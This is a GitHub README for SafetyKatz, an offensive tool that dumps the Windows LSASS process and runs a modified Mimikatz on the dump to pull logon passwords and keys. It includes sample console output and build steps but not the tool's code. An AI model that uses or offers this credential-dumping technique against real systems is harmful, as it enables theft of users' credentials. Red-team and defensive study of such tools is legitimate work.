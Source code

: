 # SafetyKatz

----

SafetyKatz is a combination of slightly modified version of [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project and [@subtee](https://twitter.com/subtee)'s [.NET PE Loader](https://github.com/re4lity/subTee-gits-backups/blob/master/PELoader.cs).

First, the [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump of LSASS to C:\Windows\Temp\debug.bin. Then @subtee's PELoader is used to load a customized version of Mimikatz that runs
**sekurlsa::logonpasswords** and **sekurlsa::ekeys** on the minidump file, removing the file after execution is complete.

#### Modifications

* @subtee's PE Loader was slightly modified so some of the pointer arithmetic worked better on .NET 3.5
* @gentilkiwi's Mimikatz project was modified to strip some functionality for size reasons, and to automatically run the sekurlsa::minidump mode (deleting the minidump file after). If you don't trust my compiled version, feel free to build it yourself :)


[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    C:\Temp>SafetyKatz.exe

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug.bin
    [+] Dump successful!

    [*] Executing loaded Mimikatz PE

    .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  / *** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   *** /

    mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

    Authentication Id : 0 ; 28935082 (00000000:01b983aa)
    Session           : Interactive from 0
    User Name         : blahuser
    Domain            : WINDOWS10
    Logon Server      : WINDOWS10
    Logon Time        : 7/15/2018 1:07:55 PM
    SID               : S-1-5-21-1473254003-2681465353-4059813368-1002
            msv :
            [00000003]
    Primary
            * Username : blahuser
            * Domain   : WINDOWS10

    ...(snip)...

    mimikatz # deleting C:\Windows\Temp\debug.bin


## Compile Instructions

We are not planning on releasing binaries for SafetyKatz, so you will have to compile yourself :)

SafetyKatz has been built against.NET 3.5 and is compatible with[Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
# CertKatz
